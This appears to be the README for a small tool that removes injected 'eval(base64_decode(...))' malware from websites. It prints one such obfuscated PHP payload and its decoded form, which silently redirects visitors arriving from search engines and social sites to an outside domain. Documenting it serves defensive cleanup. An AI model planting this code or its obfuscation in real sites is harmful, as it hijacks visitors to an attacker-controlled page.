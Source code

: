 exploit cleaner
==============

Removes common eval exploit code will have something similar to this:

test

eval(base64_decode("DQplcnJvcl9yZXBvcnRpbmcoMCk7DQokcWF6cGxtPWhlYWRlcnNfc2VudCgpOw0KaWYgKCEkcWF6cGxtKXsNCiRyZWZl
cmVyPSRfU0VSVkVSWydIVFRQX1JFRkVSRVInXTsNCiR1YWc9JF9TRVJWRVJbJ0hUVFBfVVNFUl9BR0VOVCddOw0KaWYgKCR1YWcpIHsNCmlmICgh
c3RyaXN0cigkdWFnLCJNU0lFIDcuMCIpIGFuZCAhc3RyaXN0cigkdWFnLCJNU0lFIDYuMCIpKXsKaWYgKHN0cmlzdHIoJHJlZmVyZXIsInlhaG9v
Iikgb3Igc3RyaXN0cigkcmVmZXJlciwiYmluZyIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsInJhbWJsZXIiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJsa
XZlLmNvbSIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsIndlYmFsdGEiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJiaXQubHkiKSBvciBzdHJpc3RyKCRyZWZ
lcmVyLCJ0aW55dXJsLmNvbSIpIG9yIHByZWdfbWF0Y2goIi95YW5kZXhcLnJ1XC95YW5kc2VhcmNoXD8oLio/KVwmbHJcPS8iLCRyZWZlcmVyKSBvc
iBwcmVnX21hdGNoICgiL2dvb2dsZVwuKC4qPylcL3VybFw/c2EvIiwkcmVmZXJlcikgb3Igc3RyaXN0cigkcmVmZXJlciwibXlzcGFjZS5jb20iKSB
vciBzdHJpc3RyKCRyZWZlcmVyLCJmYWNlYm9vay5jb20vbCIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsImFvbC5jb20iKSkgew0KaWYgKCFzdHJpc3RyK
CRyZWZlcmVyLCJjYWNoZSIpIG9yICFzdHJpc3RyKCRyZWZlcmVyLCJpbnVybCIpKXsNCmhlYWRlcigiTG9jYXRpb246IGh0dHA6Ly9vbm90aXcuZG5
zZXQuY29tLyIpOw0KZXhpdCgpOw0KfQp9Cn0NCn0NCn0="));

That decodes to:


error_reporting(0);
$qazplm=headers_sent();
if (!$qazplm){
$referer=$_SERVER['HTTP_REFERER'];
$uag=$_SERVER['HTTP_USER_AGENT'];
if ($uag) {
if (!stristr($uag,"MSIE 7.0") and !stristr($uag,"MSIE 6.0")){
if (stristr($referer,"yahoo") or stristr($referer,"bing") or stristr($referer,"rambler") or stristr($referer,"live.com") or stristr($referer,"webalta") or stristr($referer,"bit.ly") or stristr($referer,"tinyurl.com") or preg_match("/yandex\.ru\/yandsearch\?(.*?)\&lr\=/",$referer) or preg_match ("/google\.(.*?)\/url\?sa/",$referer) or stristr($referer,"myspace.com") or stristr($referer,"facebook.com/l") or stristr($referer,"aol.com")) {
if (!stristr($referer,"cache") or !stristr($referer,"inurl")){
header("Location: http://onotiw.dnset.com/");
exit();
}
}


Which would send anyone that came from facebookl, yahoo, or google to:

http://onotiw.dnset.com/
